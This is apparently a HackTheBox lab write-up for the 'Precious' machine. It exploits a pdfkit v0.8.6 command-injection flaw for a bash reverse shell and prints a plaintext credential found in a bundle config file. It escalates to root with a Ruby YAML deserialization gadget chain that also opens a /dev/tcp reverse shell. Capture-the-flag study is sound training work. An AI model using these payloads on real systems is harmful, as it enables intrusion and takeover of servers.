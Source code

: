 ```yaml
---
layout: post
title: HTB - Precious
tags: [Linux, HTB, HTB-Easy, Ruby, pdfkit]
---
```



## Summary
![Box Info](/assets/img/precious/precious.png)

## Enumeration
Starting with a nmap full port scan to discover open ports:\
`sudo nmap -sC -sV -Pn -On enum/precious.nmap -v -p- 10.10.11.189`

Open ports:
- 22 - SSH
- 80 - Web Server

### Web application
The webapp allows to convert HTML pages into pdf files and the URL is controlled by the user.

\#todo: insert screen

I tried to connect to my host to see what kind of HTTP request the server was making:
```bash
$ sudo nc -nvlp 80    
listening on [any] 80 ...
connect to [10.10.16.19] from (UNKNOWN) [10.10.11.189] 54878
GET /aaa HTTP/1.1
Host: 10.10.16.19
User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/602.1 (KHTML, like Gecko) wkhtmltopdf Version/10.0 Safari/602.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en-US,*
```
From the User-Agent header I know that **wkhtmltopdf** was used but I cannot find anything useful to exploit this version, so, I tried to convert a page to see the result.
Checking the dev console on the generated PDF page I noted a log which contains the software and the version used (pdfkit v0.8.6)

![Pdfkit](/assets/img/precious/pdf-kit-version.png)

## Gain access

### PdfKit RCE
PdfKit v0.8.6 is vulnerable to RCE (https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795) if the URL contains a query parameter named `name` which contains a URL encoded char and a query string substitution shell command.

I used this url in the webapp input and I got back a reverse shell\
```
http://example.com/?name=#{'%20`bash -c "bash -i >& /dev/tcp/10.10.16.19/9000 0>&1"`'}
```


```bash
$ nc -nvlp 9000
listening on [any] 9000 ...
connect to [10.10.16.19] from (UNKNOWN) [10.10.11.189] 46934
bash: cannot set terminal process group (679): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.1$ 
```

The shell was executed as `ruby` user. So I needed to escalate my privileges.
I checked the `/etc/passwd` file:

```bash
$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
henry:x:1000:1000:henry,,,:/home/henry:/bin/bash
ruby:x:1001:1001::/home/ruby:/bin/bash
```

## Privilege Escalation to henry
The target user is `henry`. I checked services executed by this user but I didn't found anything useful.\
I started searching for credentials and in ruby's home there was a file in `.bundle/` with `henry` credentials.

```bash
$ cat /home/ruby/.bundle/config 
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

Use this credentials to login in SSH as henry and grab user flag

## Privilege Escalation to root
User henry can execute a specific ruby command as root:

```bash
$ sudo -l
User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```
The file `update_dependecies.rb` read a yaml file in the pwd called dependencies.yml (an example is stored in /opt/sample)

Ruby YAML module load function is vulnerable to RCE: https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/

Use this input in dependecies.yml to obtain a reverse shell as root:
```yaml
---
- !ruby/object:Gem::Installer
	i: x
- !ruby/object:Gem::SpecFetcher
	i: y
- !ruby/object:Gem::Requirement
requirements:
!ruby/object:Gem::Package::TarReader
io: &1 !ruby/object:Net::BufferedIO
io: &1 !ruby/object:Gem::Package::TarReader::Entry
read: 0
header: "abc"
debug_output: &1 !ruby/object:Net::WriteAdapter
socket: &1 !ruby/object:Gem::RequestSet
sets: !ruby/object:Net::WriteAdapter
socket: !ruby/module 'Kernel'
method_id: :system
git_set: "bash -c 'bash -i >& /dev/tcp/<myip>/9000 0>&1'"
method_id: :resolve
```

```bash
# On the box
$ sudo ruby /opt/update_dependencies.rb
...
# On my host
$ nc -nvlp 9000
listening on [any] 9000 ...
connect to [10.10.16.19] from (UNKNOWN) [10.10.11.189] 54586
root@precious:/root#
```

Now we can grab root flag!